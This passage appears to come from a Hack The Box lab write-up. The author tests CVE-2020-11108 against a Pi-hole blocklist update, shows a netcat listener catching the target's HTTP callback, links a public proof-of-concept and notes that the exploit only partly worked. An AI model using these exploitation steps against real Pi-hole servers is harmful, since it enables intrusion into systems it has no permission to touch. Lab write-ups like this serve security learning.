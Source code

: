 blocklist

![](/assets/img/12-pihole-blocklist-update.png)

blocklist update

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ nc -lvnp 8099                                                                                   1 ⨯
listening on [any] 8099 ...
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 55154
GET / HTTP/1.1
Host: 10.10.15.88:8099
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*
If-Modified-Since: Sun, 15 Nov 2020 02:29:23 GMT

HTTP/1.1 200 OK

test

^C
```

The first part of the exploit seemed to work, but after the refresh I couldn't get it to display `.domain`. Perhaps it wasn't vulnerable to this?

[https://github.com/frichetten/CVE-2020-11108-PoC](https://github.com/frichetten/CVE-2020-11108-PoC)


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>